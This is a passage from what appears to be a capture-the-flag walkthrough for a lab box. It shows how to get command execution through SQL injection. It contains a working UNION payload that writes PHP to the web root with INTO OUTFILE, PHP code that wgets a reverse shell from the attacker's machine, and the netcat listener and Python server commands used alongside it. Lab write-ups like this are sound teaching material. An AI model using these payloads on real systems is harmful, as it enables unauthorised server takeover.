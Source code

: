 This shows how dangerous it would be if MySQL was running as root. We would have been able to enumerate sensitive files on the system such as the /etc/shadow file. Unfortunately, that’s not the case for this box.

**Step 4— Command Execution**

Alright, the last step is to get command execution. Just like we can add the value “1” using a select statement, we can also add php code. However, we need to save that code into a file and then somehow call the file and execute the code.

First, get the php-reverse-shell script from [pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and make the relevant changes.

Second, set up a listener on your attack machine to receive that reverse shell.

```text
nc -nlvp 1234
```

Third, exploit the SQL injection to add php code into a file on the system. This involves two steps: \(1\) add php code that downloads the reverse shell script from the attack machine and saves it in a file on the target system, and \(2\) save the output of the query into a PHP file using the MYSQL INTO OUTFILE statement.

```text
9999 union select 1,(select '<?php exec(\"wget -O /var/www/html/shell.php http://10.10.14.12:5555/php-reverse-shell.php\");?>'),3,4,5,6,7 INTO OUTFILE '/var/www/html/test4.php'
```

What the above query does, is it saves the entire query \(including the PHP code\) into the file /var/www/html/test4.php. This is the root directory of the web server. So when we call the test4.php script, it will execute the php code that we included in our select statement and download the reverse shell.

Since the php code downloads the script from our attack machine, we first need to set up a simple python server.

```text
python -m SimpleHTTPServer 5555
```

Then execute the script by calling it in the browser.

```text
http://10.10.10.143/test4.php
```

We can see that a GET request to the php-reverse-shell script was made on the python sever. This means that the php code executed. So far so good. The wget statement above downloads the file and saves it in the root directory with the file name shell.php. Therefore, to run our shell script, call it in the browser.

```text
http://10.10.10.143/shell.php
```

We get a shell!

![](../images/max/1010/1*YHQHqsXtlelaqDdNkrHcrA.png)
